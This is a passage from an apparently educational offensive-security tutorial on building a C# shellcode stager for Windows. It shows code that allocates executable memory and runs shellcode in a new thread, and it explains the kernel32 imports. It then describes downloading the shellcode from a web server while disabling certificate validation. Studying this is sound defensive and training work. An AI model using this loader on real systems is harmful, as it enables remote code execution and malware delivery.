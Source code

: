 ```bash

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from **`kernel32.dll`**:

| WinAPI Function | Description |
| --- | --- |
| https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc | Allows us to reserve some memory to be used by our shellcode. |
| https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread | Creates a thread as part of the current process. |
| https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject | Used for thread synchronization. It allows us to wait for a thread to finish before continuing. |

The part of the code in charge of importing these functions is the following:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the **`Stager()`** function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.

The first part of the **`Stager()`** function will create a new **`WebClient()`** object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the **`ServerCertificateValidationCallback`** method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the **`DownloadData()`** method to download the shellcode from the given URL and store it into the **`shellcode`** variable:
